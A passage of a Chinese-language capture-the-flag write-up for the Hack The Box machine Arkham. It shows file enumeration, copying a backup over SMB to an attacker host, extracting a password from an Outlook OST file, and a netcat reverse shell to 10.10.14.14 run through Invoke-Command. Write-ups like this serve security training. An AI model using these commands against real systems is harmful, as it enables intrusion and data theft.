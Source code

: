 在主目录下枚举关键文件

```
dir /s /b /a:-d-h \Users\alfred | findstr /i /v "appdata"
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99ae6bXGicm1RuiafJE48OThDoh5hxxtaYtRwOmfxsDAicGnaOia5K8W2IpLGw/640?wx_fmt=png)发现 backup.zip，我们需要将其下载到本地。借助 smbserver 来建立 smb 共享，同时设置账号密码，否则无法连接

```
python3 smbserver.py -smb2support -username mac -password mac share /root/hackthebox/Machines/Arkham/<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeYMpCmmR9icqlAI08ics15lz3YcPQY5gTqzicFjP8mGReX5aYywZQFfFxA/640?wx_fmt=png)在靶机上复制 backup.zip 到本机目录下

```
net use \\10.10.14.14\share /u:mac mac<br style="box-sizing: border-box;">copy C:\Users\Alfred\Downloads\backups\backup.zip \\10.10.14.14\share\<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeXsX2wdWA1icXItLo5KzuTkXzHNYsTsnPlbPcwoWAA49HkwDjVpa6xmQ/640?wx_fmt=png)解压该文件，里面包含一个 ost 文件，是 Microsoft Outlook 的脱机文件夹文件

```
unzip -l backup.zip<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeoibCNQSsvZXibshJk0Ph2N5IKnuIz8OjNT0a3Lb2SFVKia7we5SroKicUQ/640?wx_fmt=png)截屏 2021-12-20 上午 3.54.09

借助 readpst 来进行解析，该工具可以用来解析`.pst`、`.ost`文件

```
readpst alfred@arkham.local.ost<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aecbuIp8uUrnnaqybfWQz8EDv84XHvFibfB7SoHem30W7IyvKd0EahYhg/640?wx_fmt=png)解压完成是一个`.mbox`文件，这是一种电子邮件邮箱文件格式，可在单个文件中存储多条消息并将其作为文本。使用 mutt 来打开它

```
mutt -R -f Drafts.mbox<br style="box-sizing: border-box;">
```

![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeOZdHxoFrlmIP1X3x8lS5F0zo0gmASaOUsW0DsShHibdia6htrpGK9wvw/640?wx_fmt=png)这是一封给 batman 的邮件，翻到最后存在一个附件![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeMUnCYibo1MnhNoUPlK2ubuMq7KicWSXuwbgwZALpuQcCmpoOb2hJXHCw/640?wx_fmt=png)通过 v 来查看附件![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeOVTmaDDsbjiahfThsuJwLKsiabMEzVFazW9qdUUiaaoxJQZQx0fEpmgOg/640?wx_fmt=png)![](https://mmbiz.qpic.cn/mmbiz_png/iar31WKQlTTqQolGUk4Aic4MFYGfibH99aeC5Lu4lhLmuiaouRdL1Iqj7OJBTWXCXZv4TCwJFHaBIAZYc111F18A9g/640?wx_fmt=png)成功获取到账号密码为：batman/Zx^#QZX+T!123

### 获取 shell

进入 powershell 来制作凭据

```
powershell$username = 'batman'$password = 'Zx^#QZX+T!123'$securePassword = ConvertTo-SecureString $password -AsPlainText -Force$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword
```

建立凭据后开启监听 2222 端口，之后执行命令以 batman 身份反弹 shell

```
Invoke-command -computername ARKHAM -credential $credential -scriptblock { cmd.exe /c "C:\windows\system32\spool\drivers\color\nc.exe" -e cmd.exe 10.10.14.14 2222 }
```
